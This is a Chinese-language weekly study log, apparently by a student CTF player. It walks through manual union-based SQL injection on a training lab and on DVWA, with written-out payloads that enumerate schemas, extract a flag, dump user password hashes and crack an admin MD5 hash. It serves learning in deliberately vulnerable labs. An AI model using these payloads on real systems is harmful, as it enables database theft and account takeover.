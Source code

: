 ## 本周重点
### 1.知识分享
一、sql手注
先输入id=1测试能否注入
![b3f966f1e8beb5ccbfb6c9819e9a5f6b.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699199406245-d7479a27-c4ea-463a-b0d8-23bc472b0899.png#averageHue=%2383d009&clientId=ua474264a-bcff-4&from=paste&height=281&id=u41dfc2eb&originHeight=351&originWidth=1041&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29515&status=done&style=none&taskId=u49ce87a9-57b9-44f5-86e0-d52f2f4ff9c&title=&width=832.8)
然后分别注入id=1 and 1=1和id=1 and 1=2，若后者显示报错则为数字型注入，但此题并没有出现。
![fac036c870b2dccf32ce4c75a7c2ec90.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200005692-8c73a9be-8629-4856-93a1-a8e321b900a8.png#averageHue=%2382cf09&clientId=ua474264a-bcff-4&from=paste&height=250&id=ua308a3f7&originHeight=313&originWidth=633&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23228&status=done&style=none&taskId=u4b894828-78c0-4f77-874f-3c0099de575&title=&width=506.4)
![5686766c6dc6c9791cf1aef888452963.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200035741-9fae1645-b82b-4bb5-885f-4b8a7bd93b9f.png#averageHue=%2389d309&clientId=ua474264a-bcff-4&from=paste&height=262&id=uf2e68b45&originHeight=327&originWidth=500&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=20114&status=done&style=none&taskId=ud5ca5c56-0679-47da-9880-57acd89a1b6&title=&width=400)
然后测试id=1' and 1=1 -- q和id=1' and 1=2 -- q若后者报错则为字符型注入，这题明显为字符型。
![8205a12d52b7d03accb8f44a90da0648.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200330583-b565c4a8-adc5-4dea-aa79-e6683305bf76.png#averageHue=%2389d309&clientId=ua474264a-bcff-4&from=paste&height=254&id=u17cf091b&originHeight=318&originWidth=578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21673&status=done&style=none&taskId=uc3c6df64-6d26-4062-8ab7-a7ddc03ea7d&title=&width=462.4)
![ed598d21cca99facfcdca5f3aca9ac6b.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200339966-3fa338e9-c889-44a1-b33a-f28c2e4413c5.png#averageHue=%23c4ac47&clientId=ua474264a-bcff-4&from=paste&height=189&id=ubf534442&originHeight=236&originWidth=529&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12792&status=done&style=none&taskId=u1263e678-005d-4189-8ac5-060e952d1e0&title=&width=423.2)
下一步判断列数，用id=1' order by [num] -- q测试，当注入到4时报错了说明列数为3
![787e7e2f6747df921ab414ff352dd01f.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200479617-030a89aa-d62c-4532-8313-017f4a44ec79.png#averageHue=%23cacc13&clientId=ua474264a-bcff-4&from=paste&height=206&id=uea700ef1&originHeight=257&originWidth=517&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14671&status=done&style=none&taskId=ua7d95619-0cf5-4f6e-98f2-9607892d817&title=&width=413.6)
然后判断显示位，用id=-1' union select 1,2,3 -- q来注入得到2,3为回显位
![9f5c1fa9a9dacf62e2dc2b15aae454d2.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200658447-0006cc29-b3ee-4431-a6d3-ee9ed6d2c831.png#averageHue=%238bd30b&clientId=ua474264a-bcff-4&from=paste&height=252&id=u63619455&originHeight=315&originWidth=652&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21389&status=done&style=none&taskId=uf9da737e-a285-46ae-af3c-df92f737840&title=&width=521.6)
康康数据库名注入id=-1' union select 1,database(),3 -- q
（在回显为注入database()就行）得到security
![64eb13885604c81a5a75a5edd5a4202d.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200847387-078fd0d7-dcaf-41f2-881b-02fa092c22a7.png#averageHue=%2388d409&clientId=ua474264a-bcff-4&from=paste&height=241&id=ue6524947&originHeight=301&originWidth=748&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23672&status=done&style=none&taskId=u2a5f2062-e3e5-4c9c-916f-ad326472c4b&title=&width=598.4)
![0d50edf83509fa19d4ebd433bac15699.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699200943151-7fa5c2d1-c6f3-4874-993d-5e0741561c8e.png#averageHue=%238ad309&clientId=ua474264a-bcff-4&from=paste&height=230&id=u3a6318d0&originHeight=288&originWidth=673&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=22808&status=done&style=none&taskId=ua8123782-e43d-46c3-a9b3-6398bfc14c4&title=&width=538.4)
得到库名就可以开始查表名了，注入
`id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' -- q`
（同上group_concat(table_name)查表代码只要放在回显位就行）看到flag表了
![11aa70bbd3a26e784d36bf2022fd01d3.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699201194832-55c659f3-2597-435e-b395-a3e51164a327.png#averageHue=%238ecd14&clientId=ua474264a-bcff-4&from=paste&height=257&id=u80d4e4d0&originHeight=321&originWidth=1080&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=34503&status=done&style=none&taskId=u25adfa1f-90c0-4b07-9bda-27f64138301&title=&width=864)
找到目标表再接着查目标表的段名，注入
`id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='flag' -- q`
看到就id和flag两个段，那直接查flag段的数据就行
![4130e407c0af70c53e821ae9792340df.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699201568836-d04df276-75f7-4439-8177-86bf9ff3f8da.png#averageHue=%2399c71b&clientId=ua474264a-bcff-4&from=paste&height=245&id=u189b7c4d&originHeight=306&originWidth=877&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27253&status=done&style=none&taskId=ucb1063f5-d6b6-4087-823e-96f8c96a3e0&title=&width=701.6)
注入?id=-1' union select 1,2,group_concat(0x7e,flag) from security.flag -- q得到flag
![5b7218b093a80bdf520780b748514735.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699202183365-6a89fa14-ee3d-454b-a978-9fd18a754529.png#averageHue=%238bcf10&clientId=ua474264a-bcff-4&from=paste&height=261&id=u960564bf&originHeight=326&originWidth=1040&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=37853&status=done&style=none&taskId=u6a649b63-93a4-43af-be92-6b94c3c0b88&title=&width=832)
二、dvwa sql
注入1有回显结果，而1’则是报错
![df1c815357913b6dc1050b40bcb149c4.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699203638593-fb4a032e-cd57-40a6-9156-8938bcc86b14.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=116&id=u9354a664&originHeight=145&originWidth=340&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2269&status=done&style=none&taskId=udafe5d3f-2c3c-41c2-8c24-cc8fefe1bd7&title=&width=272)
![50d588226f9d4677929a3eb0ca571a7a.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204066230-be4c6362-ff8d-4ee9-a113-6100a841ef9d.png#averageHue=%23f5f5f5&clientId=ua474264a-bcff-4&from=paste&height=47&id=u3223c341&originHeight=59&originWidth=1263&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3395&status=done&style=none&taskId=uaf4c8dee-15ec-40b9-95b7-41b054e0439&title=&width=1010.4)
所以我们验证一下是不是数字型注入按照上面方法发现当注入1 and 1=2时却没有报错
![3ff90e5f4eb8e9c498324fa84cc5cd12.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204188568-9e5d3945-817a-40e5-b80d-5b4fdc4de899.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=118&id=u916b18bf&originHeight=148&originWidth=363&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2497&status=done&style=none&taskId=ufcd9b193-7e75-4a41-af42-db4c047bd7a&title=&width=290.4)
![d7e5c5ad6c04c7381fa99954f1544d4e.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204196424-28af3ea0-01aa-4609-9f3d-f00c94b7aac5.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=101&id=ud6c819fa&originHeight=126&originWidth=343&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2355&status=done&style=none&taskId=uc2693038-d6d2-4838-881c-56e7be283f2&title=&width=274.4)
那大概率就不是数字型了，然后我们验证字符型
构造了1' and 1=1#和1' and 1=2#发现后者无回显可知为字符型
![abc3d873862f4b293dd81e110b85b37f.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204411275-2b83ab68-5092-4384-8bc7-1b26b478a9eb.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=116&id=u5fa01297&originHeight=145&originWidth=365&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2540&status=done&style=none&taskId=uc514e816-929e-4c39-8583-bf91f934bdc&title=&width=292)
![87446d82f147c12e10592241d3b33776.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204418605-5bf8238a-615c-489b-902d-171b01c3b17f.png#averageHue=%239c9d98&clientId=ua474264a-bcff-4&from=paste&height=244&id=ud6bc9143&originHeight=305&originWidth=564&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=22962&status=done&style=none&taskId=u5c835d82-df64-4372-a86f-fbd75bce469&title=&width=451.2)
然后我们来爆列数，爆到3报错，说明两列
![1aa008c22842c0c65a38d725ab2c8f43.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204577782-ca17ae15-88f0-481f-baaf-c4713962d9d3.png#averageHue=%23f5f5f5&clientId=ua474264a-bcff-4&from=paste&height=38&id=ud9996585&originHeight=47&originWidth=330&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1077&status=done&style=none&taskId=uadbab37d-3350-484f-b8c1-5d5be9043eb&title=&width=264)
爆回显看到1，2都可回显，后面个人习惯就用2
![18b809c49297a75e8a1d6c8f1715f110.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204700830-d03286d5-b3c0-4b76-a884-fd130e0e6c0b.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=109&id=u1483d462&originHeight=136&originWidth=378&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2660&status=done&style=none&taskId=u9f87e2fc-1f5a-464f-ae9a-724bb63fcdb&title=&width=302.4)
爆库名得到dvwa
![ae2d5e02f34b38d5a9c08bb4d4db46d2.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699204800141-389a3c94-cf17-4f43-97cd-29f5f0f1db28.png#averageHue=%23f7f9f9&clientId=ua474264a-bcff-4&from=paste&height=74&id=u4a39ef08&originHeight=93&originWidth=413&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1872&status=done&style=none&taskId=u1d92c981-c78e-4543-9901-cbf2715085e&title=&width=330.4)
接着爆表发现union联合查询注入报错，学了波修代码
![b22d0f1cc73ae8033c908890972f1f27.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699205062222-0dc7ab90-c31e-4769-a6fb-c9a32698b18d.png#averageHue=%23f6f6f6&clientId=ua474264a-bcff-4&from=paste&height=42&id=u8309ea00&originHeight=52&originWidth=450&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1471&status=done&style=none&taskId=u2ac9388e-5a4b-4b04-a2ab-1ef6ed381ab&title=&width=360)
修好后可以正常爆表有guestbook和users两个表
![3d9217eec102e4bee0c350d7976b8888.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699207025584-7e7e8446-1535-4b8c-874e-45a3b9d856d4.png#averageHue=%239abc9a&clientId=ua474264a-bcff-4&from=paste&height=139&id=u80fb1544&originHeight=174&originWidth=982&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=5951&status=done&style=none&taskId=u5ce0f25d-8105-4fc6-b6c5-0d71d7209a2&title=&width=785.6)
既然sql注入那我们就爆账户密码表users可以看到user和password两个段表，我们爆这俩的数据
![dd0196147c4d46432775d70c20e03087.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699207327432-104cc5d9-a5fd-4a25-8953-d32e8af36432.png#averageHue=%239abc9a&clientId=ua474264a-bcff-4&from=paste&height=91&id=u8aaf3e8c&originHeight=114&originWidth=1163&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=8081&status=done&style=none&taskId=u341e23af-e012-445d-8167-f10d9a901d2&title=&width=930.4)
得到账户密码，密码是md5加密的
![5d2dca02d135030d2f8e27c0628cf0ec.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699207588499-0dc456de-cddd-4241-9d16-dbd77f51461f.png#averageHue=%23f0f3bd&clientId=ua474264a-bcff-4&from=paste&height=179&id=ufa64fa5c&originHeight=224&originWidth=1449&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12800&status=done&style=none&taskId=ue2c287c6-fd9d-4a0a-b8f9-2f7287459a2&title=&width=1159.2)
解密md5得到admin的密码
![83f8f17e90c48c41a237bfab409511ba.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699207695714-21033f89-f7fb-428b-bb2c-4d9e65e73190.png#averageHue=%23e0e2b0&clientId=ua474264a-bcff-4&from=paste&height=162&id=u4e2e68cd&originHeight=203&originWidth=834&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6320&status=done&style=none&taskId=u4b073230-1207-4858-b740-86759a8f519&title=&width=667.2)
## 下周计划

- isCTF
- 极客大挑战
- 复现newstar
## 总结
终于把课外八学分搞定了，然后就是算是第一次团队正式比赛鹏城杯却坐牢了，除了web1其他都没思路，misc三段flag只出了两段真的糟心，下次isCTF要努力了，sql注入迈出了第一步手注和sqlmap都实验了，下一步大概是bool希望早日学号盲注，一种注入应该更好引申到另一种注入，比如最近比赛出现频率很高的ssti注入。已经复现了好多前期比赛的题，学到一些新的漏洞，但还没好好总结，还有些新的工具和解题方法。

